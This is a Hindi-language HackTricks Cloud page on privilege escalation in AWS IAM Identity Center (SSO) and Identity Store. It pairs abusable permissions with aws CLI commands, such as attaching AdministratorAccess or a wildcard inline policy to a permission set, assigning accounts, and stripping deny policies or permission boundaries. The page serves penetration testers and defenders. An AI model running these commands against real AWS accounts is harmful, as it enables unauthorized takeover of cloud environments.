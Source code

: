 # AWS - SSO और आईडेंटिटी स्टोर Privesc

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

## AWS आईडेंटिटी सेंटर / AWS SSO

AWS आईडेंटिटी सेंटर / AWS SSO के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
ध्यान दें कि **डिफ़ॉल्ट** रूप से, केवल **उपयोगकर्ता** जिनके पास **प्रबंधन खाता** से अनुमतियाँ हैं, वे IAM आईडेंटिटी सेंटर तक पहुंच और इसे नियंत्रित कर सकते हैं।\
अन्य खातों के उपयोगकर्ताओं को केवल उसकी अनुमति होगी अगर खाता एक **अधिकृत प्रशासक** है।\
[अधिक जानकारी के लिए दस्तावेज़ देखें।](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~पासवर्ड रीसेट~~

इस तरह के मामलों में विशेषज्ञता बढ़ाने का एक आसान तरीका यह हो सकता है कि उस अनुमति को होने दिया जाए जो उपयोगकर्ताओं के पासवर्ड रीसेट करने की अनुमति देता है। दुर्भाग्यवशः, केवल उपयोगकर्ता को उसका पासवर्ड रीसेट करने के लिए ईमेल भेजने की संभावना है, इसलिए आपको उपयोगकर्ता के ईमेल तक पहुंच की आवश्यकता होगी।

### `identitystore:CreateGroupMembership`

इस अनुमति के साथ एक उपयोगकर्ता को एक समूह में सेट करना संभव है ताकि वह समूह की सभी अनुमतियों को अनुग्रहित करें।

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

इस अनुमति के साथ एक हमलावर उस Permission Set को अतिरिक्त अनुमतियाँ प्रदान कर सकता है जो उसके नियंत्रण में एक उपयोगकर्ता को प्रदान की गई है

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

इस अनुमति के साथ एक हमलावर उस Permission Set को अतिरिक्त अनुमतियाँ प्रदान कर सकता है जो उसके नियंत्रण में एक उपयोगकर्ता को प्रदान किया गया है

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

इस अनुमति के साथ एक हमलावर उस Permission Set को अतिरिक्त अनुमतियाँ प्रदान कर सकता है जो उसके नियंत्रण में एक उपयोगकर्ता को प्रदान किया गया है।

{% hint style="warning" %}
इस मामले में इन अनुमतियों का दुरुपयोग करने के लिए आपको जानने की आवश्यकता है कि **किसी भी खातों में सभी खातों में एक ग्राहक प्रबंधित नीति का नाम** क्या है जिन पर प्रभावित होने वाला है।
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

इस अनुमति के साथ एक हमलावर अपने नियंत्रण में एक खाते को एक उपयोगकर्ता को एक अनुमति सेट दे सकता है।

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

उपयोगकर्ता को सौंपे गए किसी भी भूमिका नाम के लिए STS छोटे समयी प्रमाणों को वापस लाता है।

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

फिर भी, आपको एक एक्सेस टोकन की आवश्यकता है जिसे मुझे यह नहीं पता कि कैसे प्राप्त करें (कार्य सूची).

### `sso:DetachManagedPolicyFromPermissionSet`

इस अनुमति के साथ एक हमलावर एडवायज़र निर्दिष्ट अनुमति सेट से AWS मैनेज्ड पॉलिसी के संबंध को हटा सकता है। **मैनेज्ड पॉलिसी को अलग करने (इनकार पॉलिसी)** के माध्यम से अधिक विशेषाधिकार प्रदान किया जा सकता है।

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

इस अनुमति वाले हमलावर को निर्दिष्ट अनुमति सेट से ग्राहक प्रबंधित नीति के बीच संबंध को हटा सकता है। **प्रबंधित नीति को अलग करने (इनकार नीति)** के माध्यम से अधिक विशेषाधिकार प्रदान किया जा सकता है।

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
### `sso:DeleteInlinePolicyFromPermissionSet`

इस अनुमति वाले हमलावर को इस अनुमति सेट से इनलाइन नीति से अनुमतियों को हटाने की कार्रवाई करने की संभावना है। इसके माध्यम से **एक इनलाइन नीति को अलग करके (इनकार नीति)** अधिक विशेषाधिकार प्रदान किए जा सकते हैं।
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

इस अनुमति के साथ एक हमलावर अनुमति सेट से अनुमति सीमा को हटा सकता है। **अनुमति सीमा से दी गई प्रतिबंधनों को हटाकर अधिक विशेषाधिकार प्रदान किया जा सकता है**।

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
सीखें और प्रैक्टिस करें AWS हैकिंग: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
सीखें और प्रैक्टिस करें GCP हैकिंग: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड ग्रुप**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम ग्रुप**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
{% endhint %}

